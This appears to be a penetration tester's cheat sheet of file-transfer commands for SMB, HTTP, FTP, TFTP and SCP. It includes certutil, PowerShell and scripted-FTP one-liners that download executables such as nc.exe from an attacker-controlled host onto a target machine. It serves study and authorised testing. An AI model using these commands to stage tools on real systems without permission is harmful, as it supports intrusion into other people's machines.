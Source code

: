 # File Transfers
## SMB Server
-> Setting
```bash
impacket-smbserver share . -smb2support -user user -password teste321
```
-> Transfer
```powershell
net use \\<smbserver>\share /USER:user teste321
copy \\<smbserver>\share\nc.exe .
```

## HTTP
-> start a web server
```bash
python -m SimpleHTTPServer 80
service apache2 start
```

-> Windows - file download
```powershell
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<IP>/file.exe','C:\Users\user\Desktop\file.exe')"
iwr -uri http://<IP>/file -Outfile file
wget http://<IP>/file -O file
curl http://<IP>/file -o file
certutil -urlcache -f http://<IP>:803/ok.exe ok.exe  
```

-> Linux - file download
```bash
wget http://<IP>/file
curl http://<IP>/file > file
```

## Pure-FTPd
-> Install and Configure
```bash
sudo apt update && sudo apt install pure-ftpd
sudo groupadd ftpgroup
sudo useradd -g ftpgroup -d /dev/null -s /etc ftpuser
sudo pure-pw useradd offsec -u ftpuser -d /ftphome
sudo pure-pw mkdb
cd /etc/pure-ftpd/auth/
sudo ln -s ../conf/PureDB 60pdb
sudo mkdir -p /ftphome
sudo chown -R ftpuser:ftpgroup /ftphome/
sudo systemctl restart pure-ftpd
```

-> Transfer
```powershell
echo open 192.168.0.20 21> ftp.txt
echo USER user>> ftp.txt
echo password>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
```
```powershell
ftp -v -n -s:ftp.txt
```

## TFTP (Trivial File Transfer Protocol)
-> Install and Configure
```bash
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
```

-> Transfer
```powershell
tftp -i <IP> get file
```

## SCP (Secure File Copy)
```
scp file <user>@<IP>:/home/user/
```
